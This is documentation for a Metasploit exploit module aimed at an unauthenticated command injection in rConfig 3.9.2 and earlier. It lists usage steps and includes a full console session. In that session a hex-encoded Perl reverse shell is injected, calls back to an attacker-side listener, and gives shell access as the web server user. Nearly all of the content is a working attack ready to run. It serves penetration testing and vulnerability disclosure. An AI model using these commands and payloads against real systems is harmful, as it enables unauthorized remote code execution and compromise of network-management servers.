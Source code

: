 ## Description

  This module exploits an unauthenticated command injection vulnerability
  in rConfig versions 3.9.2 and prior. The `install` directory is not
  automatically removed after installation, allowing unauthenticated users
  to execute arbitrary commands via the `ajaxServerSettingsChk.php` file
  as the web server user.


## Vulnerable Software

  This module has been tested successfully on [rConfig](https://rconfig.com/)
  version 3.9.2 on CentOS 7.7.1908 (x64).


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/webapp/rconfig_install_cmd_exec`
  3. Do: `set rhosts <IP>`
  4. Do: `run`
  5. You should get a new session


## Options

  **TARGETURI**

  The base path to rConfig install directory (default: `/install/`)


## Scenarios

  ```
  msf5 > use exploit/unix/webapp/rconfig_install_cmd_exec 
  msf5 exploit(unix/webapp/rconfig_install_cmd_exec) > set rhosts 172.16.191.131
  rhosts => 172.16.191.131
  msf5 exploit(unix/webapp/rconfig_install_cmd_exec) > set verbose true
  verbose => true
  msf5 exploit(unix/webapp/rconfig_install_cmd_exec) > check

  [*] Executing command: id
  [*] Response: uid=48(apache) gid=48(apache) groups=48(apache)
  [+] 172.16.191.131:443 - The target is vulnerable.
  msf5 exploit(unix/webapp/rconfig_install_cmd_exec) > show targets

  Exploit targets:

     Id  Name
     --  ----
     0   Automatic (Unix In-Memory)
     1   Automatic (Linux Dropper)


  msf5 exploit(unix/webapp/rconfig_install_cmd_exec) > set target 0
  target => 0
  msf5 exploit(unix/webapp/rconfig_install_cmd_exec) > set payload cmd/unix/reverse_perl
  payload => cmd/unix/reverse_perl
  msf5 exploit(unix/webapp/rconfig_install_cmd_exec) > set lhost 172.16.191.165 
  lhost => 172.16.191.165
  msf5 exploit(unix/webapp/rconfig_install_cmd_exec) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [*] Executing command: id
  [*] Response: uid=48(apache) gid=48(apache) groups=48(apache)
  [*] Executing command: /bin/echo -ne '\x70\x65\x72\x6c\x20\x2d\x4d\x49\x4f\x20\x2d\x65\x20\x27\x24\x70\x3d\x66\x6f\x72\x6b\x3b\x65\x78\x69\x74\x2c\x69\x66\x28\x24\x70\x29\x3b\x66\x6f\x72\x65\x61\x63\x68\x20\x6d\x79\x20\x24\x6b\x65\x79\x28\x6b\x65\x79\x73\x20\x25\x45\x4e\x56\x29\x7b\x69\x66\x28\x24\x45\x4e\x56\x7b\x24\x6b\x65\x79\x7d\x3d\x7e\x2f\x28\x2e\x2a\x29\x2f\x29\x7b\x24\x45\x4e\x56\x7b\x24\x6b\x65\x79\x7d\x3d\x24\x31\x3b\x7d\x7d\x24\x63\x3d\x6e\x65\x77\x20\x49\x4f\x3a\x3a\x53\x6f\x63\x6b\x65\x74\x3a\x3a\x49\x4e\x45\x54\x28\x50\x65\x65\x72\x41\x64\x64\x72\x2c\x22\x31\x37\x32\x2e\x31\x36\x2e\x31\x39\x31\x2e\x31\x36\x35\x3a\x34\x34\x34\x34\x22\x29\x3b\x53\x54\x44\x49\x4e\x2d\x3e\x66\x64\x6f\x70\x65\x6e\x28\x24\x63\x2c\x72\x29\x3b\x24\x7e\x2d\x3e\x66\x64\x6f\x70\x65\x6e\x28\x24\x63\x2c\x77\x29\x3b\x77\x68\x69\x6c\x65\x28\x3c\x3e\x29\x7b\x69\x66\x28\x24\x5f\x3d\x7e\x20\x2f\x28\x2e\x2a\x29\x2f\x29\x7b\x73\x79\x73\x74\x65\x6d\x20\x24\x31\x3b\x7d\x7d\x3b\x27'|sh
  [*] Command shell session 1 opened (172.16.191.165:4444 -> 172.16.191.131:35004) at 2019-10-29 11:48:59 -0400

  id
  uid=48(apache) gid=48(apache) groups=48(apache)
  uname -a
  Linux localhost.localdomain 3.10.0-1062.4.1.el7.x86_64 #1 SMP Fri Oct 18 17:15:30 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
  pwd
  /home/rconfig/www/install/lib/ajaxHandlers
  ^C
  Abort session 1? [y/N]  y
  ""

  [*] 172.16.191.131 - Command shell session 1 closed.  Reason: User exit
  msf5 exploit(unix/webapp/rconfig_install_cmd_exec) > 
  ```


